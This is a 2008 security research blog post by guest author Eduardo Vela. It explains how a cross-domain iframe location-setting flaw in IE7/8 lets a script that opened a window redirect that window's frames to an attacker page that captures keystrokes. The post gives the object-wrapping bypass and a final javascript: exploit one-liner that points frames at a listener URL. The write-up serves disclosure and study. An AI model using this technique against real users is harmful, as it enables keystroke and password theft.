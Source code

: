 ```yaml
---
title: Ghost Busters
author: pdp
guest: eduardo-vela
date: Thu, 15 May 2008 16:26:48 GMT
template: post.pug
---
```


> A special guest blogger for this month is Eduardo Vela, also known as sirdarckcat, a security researcher from Mexico. Eduardo has been on the field for a couple of years, mainly focusing on web-app based vulnerabilities, privilege escalation, and IDS/filter evasion. Today, he is a student of computer sciences, does some research on his free time, and works for an important website as a security engineer. These are his words:

There a few conferences that are privately held (invite-only) and their level is commonly very high. One of them is Microsoft's BlueHat conference. BlueHat is an "internal Microsoft event", but they invite a lot of security researchers from around the world. A couple of friends presented in there, and well, apparently it was really fun. Anyway, there was a specific talk that caught our attention, more specifically Manuel Caballero's "A resident in my domain". The description of his talk was really intriguing:

> Do you believe in ghosts? Imagine an invisible script that silently follows you while you surf, even after changing the URL 1,000 times and you are feeling completely safe. Now imagine that the ghost is able to see everything you do, including what you are surfing and what you are typing (passwords included), and even guess your next move.
> No downloading required, no user confirmation, no ActiveX. In other words: no strings attached. We will examine the power of a resident script and the power of a global cross-domain. Also, we will go through the steps of how to find cross-domains and resident scripts.

Apparently, Caballero found a way of capturing keystrokes and window's location. This means that he "at least" has access to modify `document.onkeydown`, and read `window.location`, but if he could modify `document.onkeydown`, that would mean he has access to execute arbitrary code on other's domains context, so that's not it.. because if that was the case, he wouldn't be able to just capture keystrokes, but to UXSS (Universal XSS) the browser.

Anyway, the two things he claims to be able to manipulate can also be manipulated from an off-domain `iframe`. So if there's some way of changing the location of an `iframe`, to any `iframe` we want, then we would be able to capture keystrokes on our own window. So, we now need a way of changing the location of an `iframe`, but first we need to get a reference to the window where the `iframe`s stay, without loosing the script run-time execution. So there are 2 main ways of getting a reference to a window:

```javascript
x=open().window
x=window.opener
```

Both require the user to open a new window and they work exactly the same way. So if you manage to make the user open a new window, then it doesn't matter where the user is navigating to, (if both windows remains open, anyway if the users close them, you can reopen&blur) you have them. So how do we do that? We need to get a reference to the `iframe`s. The ways of doing so are:

```javascript
document.getElementsByTagName("iframe") {doesnt work on cross-domain calls}
window.frames[] {works on cross-domain calls}
```

Now we just need to modify the location. This is trivial, just changing `window.opener.frames[0].location="new location"` shold work. On a recent versions of IE7 and IE8 this method doesn't work. When you try this, the browser will open a new window and by doing so, not modifying the location of the `iframe`.

After doing some tests, the location DOES gets changed when the setted location is not a string. We have hte following options:

```javascript
window.opener.frames[0].location=123;
window.opener.frames[0].location=window;
window.opener.frames[0].location=location;
```

Works fine! But why? Well, apparently IE7&8 have a protection against setting locations by off-domain scripts, and this protection is.. "if the setted location is a string, throw an Error". Not good! We have a lot of ways of making a `String` to look like an `Object`. For example.

```javascript
new String("some-string");
{toString:function(){return "some-string";}}
new function(){this.toString=function(){return "some-string";}}
```

This way, we bypass IE's protection and set our desired location without any problems. And the final exploit goes like this:

```javascript
javascript:x=open('http://hackademix.net/');setInterval(function(){try{x.frames[0].location={toString:function(){return 'http://www.sirdarckcat.net/caballero-listener.html';}}}catch(e){}},5000);void(1);
```

What caballero-listener does is just focusing itself, so it can catches `onkeydown` events.. there are a lot of ways of making the same thing in more stealth mode.
